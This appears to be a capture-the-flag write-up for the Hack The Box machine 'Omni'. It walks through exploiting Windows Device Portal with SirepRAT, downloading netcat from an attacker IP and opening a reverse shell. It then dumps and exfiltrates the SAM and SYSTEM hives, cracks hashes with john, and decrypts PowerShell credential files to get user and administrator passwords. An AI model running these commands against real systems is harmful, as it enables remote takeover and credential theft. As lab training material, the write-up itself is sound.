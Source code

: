 ![OMNI](banner.png)
```
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold

Having a look at the Webpage on 8080 we are greeted with an authorization form that says "Windows Device Portal".
Searching for Windows Device Portal exploit we guickly find [this repo](https://github.com/SafeBreach-Labs/SirepRAT).

So let's try it.

We can upload files with this command:
```
python3 SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args "Invoke-WebRequest -Uri "http://10.10.14.52:1235/nc64.exe/" -OutFile "C:\nc64.exe"
```
So we upload [netcat](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) to our victim machine.

After creating our listener we can execute the attack with this command:

```
python3 SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\nc64.exe" --args "-e cmd.exe 10.10.14.52 4242"
```

## User

In order to get a user shell we first need some credentials. Credentials in Windows are stored inside the SAM file.
We can save the SAM file with this command `reg save HKLM\SAM C:\SAM` we will also need the SYSTEM file `reg save HKLM\SYSTEM C:\SYSTEM`

In order to crack it we transfer it to our host machine via netcat.
We receive the file on our host with `nc -l -p 1234 > SAM` and send it from the victim with `./nc64.exe -w 3 10.10.14.52 < SAM`.
Repeat the process for the SYSTEM file.

We didnt have much luck copying the SYSTEM file for some reason.. so we tried another approach:

We set up a smb share like this:
First we edit `/etc/samba/smb.conf` and append this to it:

```
[Public]
    path = /tmp/Public
    writable = yes
    guest ok = yes
    guest only = yes
    create mode = 0777
    directory mode = 077
    force user = nobody
```
Then we create the folder `/tmp/Public`, change its permission to 777 and restart samba like this `service smbd restart`.
We can now copy our SYSTEM file to it with this command:
```
copy C:\SYSTEM \\10.10.14.52\Public\SYSTEM
```

We can then extract the hashes with samdump2 like this:
```bash
samdump2 -o hashes SYSTEM SAM

[...]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
disabled Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
disabled :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can now crack the administrator hash with john the ripper:

```
echo "aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95" > hash
john --fork=4 --format=nt hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
mesh5143         (aad3b435b51404eeaad3b435b51404ee)
2 1g 0:00:00:00 DONE (2021-08-27 15:23) 9.090g/s 12741Kp/s 12741Kc/s 12741KC/s meshelle23..mesa85202
3 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 13792Kp/s 13792Kc/s 13792KC/s !!()ez:0).a6_123
1 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 14343Kp/s 14343Kc/s 14343KC/s !!!secret!!!.ie168
Waiting for 3 children to terminate
4 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 13791Kp/s 13791Kc/s 13791KC/s !!!rain..*7¡Vamos!
Session completed
```

We can now use the credentials `app:mesh5143` to authenticate on the webpage.

We are able to run commands under the `Processes` tab `Run command`.

![runcommand.png](runcommand.png)

To receive the user flag we can run:
```
powershell -c $credential = import-clixml -path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().password
```


## Root

Enumerating the same directory we find a file `iot-admin.xml`.

Running the same command again:
```
powershell -c $credential = import-clixml -path C:\Data\Users\app\iot-admin.xml;$credential.GetNetworkCredential().password
```

We get another password and use it to authenticate on the wegpage again: `administrator:_1nt3rn37ofTh1nGz`.

```
powershell -c $credential = import-clixml -path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().password
```
to get the root flag.